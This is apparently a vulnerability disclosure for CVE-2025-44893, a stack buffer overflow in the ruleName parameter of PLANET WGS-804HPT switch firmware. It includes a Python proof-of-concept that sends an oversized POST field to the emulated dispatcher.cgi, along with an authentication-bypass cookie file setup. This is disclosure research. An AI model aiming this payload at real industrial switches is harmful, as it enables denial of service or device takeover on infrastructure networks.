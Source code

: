 ```yaml
---
title: web_acl_mgmt_Rules_Apply_post-ruleName
date: 2025-04-20 17:08:09
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44893



# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2







# web_acl_mgmt_Rules_Apply_post-ruleName

 I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_acl_mgmt_Rules_Apply_post  contains a stack overflow vulnerability.

The stack overflow can be triggered by ruleNamekey value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-174514061245214.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250416163747967](../res/image-20250416163747967.png)





﻿The content of the **poc**.py file is as follows:

```json
import os


a = 0x2304
var_name = "ruleName"
b = 'a' * 0x500


poc_content = f"&cmd={a}&{var_name}={b}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)
```



![image-20250416163819668](../res/image-20250416163819668-174479270119922.png)

![image-20250416163913721](../res/image-20250416163913721-174479275466223.png)



Through the above image, we can see that we have overflowed to 0x450 and successfully hijacked the control flow. If necessary, more can be overflowed.
